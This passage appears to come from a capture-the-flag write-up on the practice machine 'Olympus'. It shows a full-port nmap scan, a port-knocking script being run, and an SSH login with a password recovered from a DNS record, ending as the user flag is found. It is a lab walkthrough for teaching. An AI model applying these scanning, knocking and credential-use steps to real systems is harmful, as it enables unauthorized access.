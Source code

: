 
And check nmap again… ssh is open:

```

Nmap done: 1 IP address (1 host up) scanned in 15.81 seconds
root@kali# nmap -p- -sT --min-rate 5000 10.10.10.83
Starting Nmap 7.70 ( https://nmap.org ) at 2018-05-21 21:15 EDT
Nmap scan report for 10.10.10.83
Host is up (0.095s latency).
Not shown: 65531 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
53/tcp   open  domain
80/tcp   open  http
2222/tcp open  EtherNetIP-1

```

Now we can ssh in, trying the credentials from the txt record:

```

root@kali# ./open_portal_to_Hades.py && ssh prometheus@10.10.10.83
.
Sent 1 packets.
.
Sent 1 packets.
.
Sent 1 packets.
[+] Portal should be open.
Run:
ssh prometheus@10.10.10.83
password: St34l_th3_F1re!
prometheus@10.10.10.83's password:

Welcome to

    )         (
 ( /(     )   )\ )   (
 )\()) ( /(  (()/(  ))\ (
((_)\  )(_))  ((_))/((_))\
| |(_)((_)_   _| |(_)) ((_)
| ' \ / _` |/ _` |/ -_)(_-<
|_||_|\__,_|\__,_|\___|/__/

prometheus@olympus:~$

```

### user.txt

Finally, in prometheus’ home dir, we find user.txt:
